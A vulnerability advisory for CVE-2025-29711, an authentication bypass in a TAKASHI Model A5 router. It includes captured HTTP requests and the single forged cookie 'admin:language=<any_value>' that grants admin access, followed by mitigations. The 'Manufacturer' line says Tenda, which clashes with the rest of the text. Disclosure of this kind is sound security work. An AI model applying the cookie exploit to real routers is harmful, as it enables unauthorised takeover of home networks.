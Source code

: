 # TAKASHI Wireless Instant Router and Repeater - Incorrect Access Control CVE-2025-29711

## Overview
A critical authentication bypass vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability allows unauthorized users to gain administrative access due to improper session management.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
Improper session management in Takashi Wireless Instant Router and
Repeater (Model A5) firmware v5.07.38_AAL03 with hardware v3.0 allows
unauthorized attackers to gain admin-level access via a crafted
request.
## Request Comparison
To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

### Unauthenticated Request
```
POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: http://192.168.2.1
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword
```

### Authenticated Request
```
GET /wireless_basic.asp HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.2.1/advance.asp
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4
```

## Key Difference
The key difference between the two requests is the presence of the following cookie:
```
admin:language=en
```

## The Vulnerability
The application trusts the `admin:language` cookie without properly verifying session authentication. By simply adding this cookie with an arbitrary value, an unauthenticated user can gain full administrative access.

### Exploit Mechanics
An attacker can exploit this vulnerability by setting the following cookie:
```
admin:language=<any_value>
```
Where `<any_value>` can be any string, text, or number. As long as the cookie is present, the application will treat the user as an authenticated admin.

## Impact
- Unauthorized users can gain admin-level access without valid credentials.
- Attackers can modify router settings, expose sensitive data, and potentially disrupt network operations.
- No brute-force or credential stuffing is needed—just cookie manipulation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Proper Session Management**: Implement server-side session validation instead of relying on client-side cookies.
2. **Token-Based Authentication**: Use secure session tokens that cannot be forged.
3. **Session Expiry**: Ensure sessions expire and require re-authentication after a set period.
4. **Cookie Integrity Checks**: Validate cookies against an active session in the backend database.


## References
- [OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell


